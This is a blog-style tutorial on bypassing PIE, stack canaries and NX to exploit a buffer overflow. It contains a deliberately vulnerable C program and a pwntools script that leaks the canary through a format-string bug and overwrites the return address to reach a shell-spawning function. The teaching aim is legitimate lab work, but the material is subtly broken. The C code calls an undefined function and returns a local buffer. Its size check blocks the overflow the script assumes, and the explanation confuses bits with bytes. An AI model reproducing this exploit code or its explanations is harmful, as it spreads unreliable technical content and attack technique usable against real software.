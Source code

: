 +++
author = "Emily Miller"
title = "How to: Buffer overflows with PIE, Canaries, and NX Bit"
date = "2025-02-10"
description = """Here's a (more) realistic guide on how to exploit a modern buffer
overflow"""
tags = [  ]
+++

What stack protections are we talking about? Here we're only talking about
bypassing PIE, Stack Canaries, and NX Bit, because these are found in almost every binary
compiled nowadays and you will be expected to know this in any basic binary
exploitation exercise.

#### You speak all these words, woman, but I understand not.

**What's PIE?**

PIE stands for Position Independent Executable, and all it means is
that it can get loaded into different positions in memory randomly at runtime,
which makes exploitation a bit harder. How do we bypass this in terms of buffer
overflows?  Using *partial address overwrites*! Instead of overwriting the
entire buffer, we can only overwrite the last 2 bytes, and because of things get
loaded in, 12 of those bytes will be the same every time, so we only need to
brute force 2^4 or 16 combinations.

**What's a stack canary?**

Stack canaries are the bread and butter of modern buffer overflow protections.
The idea is that we can place some specific (usually 8 byte) value between the
function memory and the return address, and we check that this canary hasn't
changed before jumping to that return pointer. If it has, we'll exit the
program, and often give the error `**** stack smashing detected ****`. How do we
bypass this? Well, there's 2 main ways: we can either jump / avoid the canary, for instance if we
have something like `buffer[i] = ptr`, and we're able to control both `i` and
`ptr`, we can avoid the canary all together. Otherwise, if we can leak the
canary using a separate vulnerability we can overwrite it with the same address,
bypassing the protection.

**What's NX Bit?**

NX Bit is a protection to mark some areas of memory as executable, some as
writable, and some as read-only. This makes basic shellcode injections (for
instance with NOP sleds), much harder. This means that when we don't have a win
function, we're going to have to use pre-existing code to our advantage, using
something like ROP or a `one_gadget` to find a de-facto win function.

#### Worked example

Let's take our code from the previous challenge, except this time, we want to
attack it without using compiler flags to disable any protections. See the code
below:
```c
void win() {
    return system("/bin/sh");
}
int main(int argc, char **argv, char **envp) {
    char buffer[64];  // Vulnerable buffer size
    int size;

    printf("Enter the size of your input: ");
    scanf("%d", &size);  // User inputs the size for fgets

    if (size > 0 && size < sizeof(buffer)) {
        printf("Enter your input: ");
        fgets(buffer, size, stdin);
	    print_quotes(buffer);
    }
	return 0;
}
void print_quoted(char *s) {
	printf(quote(s));
	return;
}
char* quote(char *s) {
	char output[16];
	sprintf(output, "\"%s\"", s);
	return output;
}
```

Going piece by piece, what changes do we need to make to the exploit? Well,
first, we're going to need to change our code to only perform a partial
overwrite on the return address to bypass PIE. We're also going to need to find
a way to leak the stack canary... luckily, we're given a win function, so NX bit
is fairly trivial to bypass.

How do we leak the canary? Well, this is where that whole second vulnerability
thing comes in. In this case, in the `print_quoted` function, there's a format
string vulnerability, which will allow us to leak the canary by inserting
carefully constructed format string (notice how we're using the `printf` directly
on the user input, meaning that whatever we type in will be treated as a format
string). In this case, we'll only need a simple payload to leak the address, but
in the future, you'll learn that you can actually often gain complete program
control with a vulnerability like this.

```python
from pwn import *

process_name = "./vulnerable"
offset = 123 # Given by the program
win_address = 0x1234 # You get this from GDB directly, notice the address is
# shorter because only the last 2 bytes will stay the same
format_string_offset = 12

p = process(process_name)

# This is a basic format string exploit to leak the canary and extract it into a
# byte string, you don't need to worry about this for now
payload_fmt = b"%" + bytes(str(format_string_offset), "utf-8") + b"$p"
p.recv()
p.sendline(payload_fmt)
canary_value = bytes.fromhex(p.recv(11)[3:])

# Back to the buffer overflow part
payload = b"A"*(offset-16) + canary_value + b"B"*8 + p64(win_address) # <-- standard buffer overflow payload

p.sendline(bytes(str(offset+2), "utf-8")) # <-- IMPORTANT: Make sure you only
# overwrite 2 bytes of the address, because the payload, if done in full, will
# fill the rest of the address with zeros and break it. You can do some
# modifications of the payload if you have to, but this is easier for challenges like this

p.sendline(payload)

p.interactive()
```

So that's how you exploit a buffer overflow with protections!
